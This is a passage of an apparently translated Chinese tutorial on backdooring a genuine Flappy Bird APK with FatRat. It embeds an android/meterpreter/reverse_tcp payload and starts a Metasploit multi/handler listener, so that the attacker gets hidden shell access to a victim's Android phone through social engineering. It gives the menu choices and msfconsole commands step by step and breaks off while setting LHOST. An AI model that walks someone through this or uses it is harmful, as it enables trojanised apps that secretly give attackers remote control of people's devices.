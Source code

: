 另一方面，我们有 **Metasploit 框架**，这是一个开源渗透工具，用于针对远程目标机器开发和执行漏洞利用代码。可以用来测试计算机系统的弱点，以保护它们，另一方面，它也可以用来闯入远程系统。

这个神奇的工具已经安装在 Kali Linux 操作系统上。

## 让我们暂停一下。

此时(如果这是您第一次听说 Metasploit 框架),我需要更深入地解释一下，因为有些关键术语可能会让您有点困惑。我之前说过这个工具是用来**测试漏洞**的，对吗？一个**漏洞**是一个可以危及任何系统安全的弱点。

这个漏洞是通过使用**漏洞利用**利用**的，这个漏洞利用指的是允许攻击者利用漏洞的软件代码。**

最后，当漏洞被利用时，**有效负载**会发挥作用，这意味着，我们会在目标系统上运行一些代码，以使利用按时持续

尽管如此。开始工作吧。

## 亲自动手

在这个例子中，我从[这里](https://www.apkmirror.com/apk/gears-studios/flappy-bird/flappy-bird-1-3-release/flappy-bird-1-3-android-apk-download/)下载了 **Flappy Bird APK**

这是真正的 APK 游戏。

我亲自将下载名称重命名为一个简单的`flappybird.apk`文件，并将它从下载目录移动到一个名为`backdooring-android`的自定义文件夹中(这是可选的)

## 使用 FatRat

当我在我的 Kali 上安装 FatRat 时，安装人员问我是否要全局设置`fatrat`命令，我说`yes`，这可能与你的过程不同

1.  通过键入`fatrat`,系统将评估和配置必要的和可用的服务
2.  键入 **5** ，用于`Backdooring Original apk [Instagram, Line,etc]`
3.  设置**本地主机** (LHOST)和**本地端口** (LPORT)。这将代表**主机 IP 地址** (Kali)和任何未使用的端口，用于侦听 TCP **会话握手**(我将在后面解释)
4.  现在，我们必须键入`flappybird.apk`的位置**路径**，在我的例子中是在`/root/backdooring-android/flappybird.apk`上
5.  为反向 TCP 设置有效负载(Metasploit 术语)。选择选项`3: android/meterpreter/reverse_tcp`
6.  选择`1: Use Backdoor-apk 0.2.2`这是创建**感染 APK** 的工具

仅此而已。与此同时， **FatRat** 将会反编译**原来的 APK** ，经过一些内部处理后会生成一个新的**感染 APK** ，默认名称为`app_backdoor.apk`

之后，我们将生成监听器设置为`no`，我们将使用 Metasploit 框架手动生成它

## 手动创建监听器

这种攻击的第二部分包括将主机(Kali)设置为**双向 TCP 连接**上的监听器，这是**通过社会工程进行反向 TCP 外壳攻击**的主要目的。该攻击将在用户不注意的情况下对 Android 机器进行外壳访问。

让我们从启动`msfconsole`命令开始

`> msfconsole`

在这之后，我们这样设置`multi/handler`漏洞

`> use multi/handler`

稍后，设置有效负载(FatRat 进程也是如此)

`> set PAYLOAD android/meterpreter/reverse_tcp`

`> set LHOST [the same as your Kali IP]`
